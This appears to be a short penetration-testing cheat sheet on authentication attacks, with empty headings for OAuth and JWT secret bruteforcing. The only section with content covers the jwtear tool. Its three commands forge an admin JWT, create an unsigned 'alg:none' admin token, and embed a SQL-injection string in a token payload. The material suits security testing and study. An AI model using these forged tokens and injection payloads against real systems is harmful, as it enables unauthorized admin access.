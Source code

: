 # Authentication

## Implementation errors

## OAuth token

## JWT

### Bruteforce the secret key



### Jwtear

Automated JWT vulnerabilities scan tool. Can be found [here](https://github.com/KINGSABRI/jwtear)

#### Create a signed token

```
jwtear --generate-token --header --header '{"typ":"JWT", "alg":"HS256"}' --payload '{"login":"admin"}' --key '<key>'
```

#### Create a token without signature

```
jwtear --generate-token --header --header '{"typ":"JWT", "alg":"none"}' --payload '{"login":"admin"}'
```

#### Test for injection in parameters

```
jwtear --generate-token --header '{"typ":"JWT", "alg":"none"}' --payload $'{"login":"admin \' or \'a\'=\'a\'}'
```

